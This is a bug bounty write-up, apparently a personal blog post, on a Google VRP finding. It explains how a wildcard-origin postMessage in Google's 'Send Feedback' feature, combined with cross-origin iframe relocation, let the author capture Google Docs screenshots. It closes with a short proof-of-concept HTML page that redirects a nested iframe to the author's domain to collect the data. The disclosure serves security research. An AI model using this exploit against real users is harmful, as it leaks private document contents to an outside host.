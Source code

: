 +++
title = '[Google VRP] Hijacking Google Docs Screenshots'
date = 2020-12-27T19:13:19+05:30
+++

## Brief:

I was able to hijack Google Docs screenshot of any document exploiting postmessage misconfiguration and a browser behavior.

Google have a feature called "Send Feedback" in most of their product. As the name suggests it helps Google to get feedback from users when they face some issue. The feature have an options to add screenshots with a brief description about the issue.

![feedback](/images/gvrp-sc-hijack/feedback.png)  

As this is a common feature available in most of their sites, they have deployed  the functionality in `https://www.google.com` and have integrated to other domains via Iframe.  

## Working:
Let us imagine using Google Docs (`https://docs.google.com/document`), to submit a feedback we can navigate to `Help`--> `Send Feedback`. Then you'll see a Iframe popping up and magically loading the screenshot of the document you were working on. As the origin of the iframe (`www.google.com`) is different from the Google docs (`docs.google.com`) there must be someway of cross origin communication to successfully render the screenshot. PostMessage, comes into the play! The work flow is like, Google docs sends RGB values of its every pixels to the main iframe www.google.com  via postmessage (as  far as I have interpreted). Which redirect those RGB values to its iframe `feedback.googleusercontent.com`  via postmessage. Which then renders an image from those pixels and sends back it's base64 encoded data-URI to the main Iframe.

Once this process is finished, we have to write a description for the feedback and on clicking send the description with the image (data-uri) is sent to `https://www.google.com` (Submit Feedback) via postmessage.  

![feedback](/images/gvrp-sc-hijack/drawing.jpg)  

## Hunting for bugs:  

The first thought I had after understanding this functionality was to find an XSS in the sandbox domain `feedback.googleusercontent.com`. Using that XSS I could hijack those RGB values of pixels, render the image and steal the screenshot.  I was pretty sure that I'll find a XSS in that as it was a sandbox domain. But it turns out I couldn't. After trying for few days, I asked [S1r1us](https://twitter.com/S1r1us_)
 for help. We tried to find XSS for about 5 days, failed and then gave up. After a week, I noticed this video by  [filedescriptor](https://twitter.com/filedescriptor) in my twitter feed. (I'm a fan of Intigriti's twitter handle and their XSS challenges)  

{{< youtube KpkrTUHoWsQ >}}  

After watching the video, I learned a new trick that I didn't knew before. That is, you can change the location of an iframe  which is present in cross origin domain (If it lacks X-Frame-Header). For example, if abc.com have efg.com as iframe and abc.com didn't have X-Frame header, I could change the efg.com to `evil.com` cross origin using, frames.location  

Now I was thinking of ways to exploit this behavior. What if I tried to replace those iframes in feedback feature to my domain? would it send the postmessage data to me? I decided to give a try. I tired replacing the `feedback.googleusercontent.com` domain with `geekycat.in`, it FAILED.  

While the data is sent to `feedback.googleusercontent.com` it is sent like  

```javascript
windowRef.postmessage("<Data>","https://feedback.googleusercontent.com");
```

So even if I change the iframe's location the data won't be sent to my domain because of the mismatch in postmessage configuration. With no hope I tried changing the (Submit Feedback `www.google.com`) iframe to my domain and this time it worked! Why?

The final postmessage on submitting feedback was configured like, ```windowRef.postmessage("<Data>","*");``` as there is no domain check the browser happily sent the data to my domain, which I was able to capture and hijack the screenshot.  

But wait! I said the parent domain shouldn't have X-Frame header, how am I going to achieve that? Luckily Google docs didn't have one. Yes! it still doesn't have. Before flooding Google with your clickjacking reports, note that the site have some other protection against clickjacking like, most options are disabled when embedded in Iframe.  

This behavior is referenced in this Liveoverflow video.  

{{< youtube aCexqB9qi70 >}}  

## Exploit:  

Put it together.  

```html
<html>
    <iframe src="https://docs.google.com/document/ID" />
    <script>
       //pseudo code
        
        
        setTimeout(function(){ exp(); }, 6000);

        function exp(){
        setInterval(function(){ 
         window.frames[0].frame[0][2].location="https://geekycat.in/exploit.html";
        }, 100);
        }
    </script>
</html>
```  

The function is called after setTimeout of 6 seconds is to give time for the iframe to load. Another issue is, the iframe is created only if user explicitly clicks on the send feedback option. So we have to try to change the location of iframe every 100 ms even when it is not present to ensure the frame is hijacked when it is created.  

## Video POC  

{{< youtube isM-BXj4_80 >}}  



Thanks :)




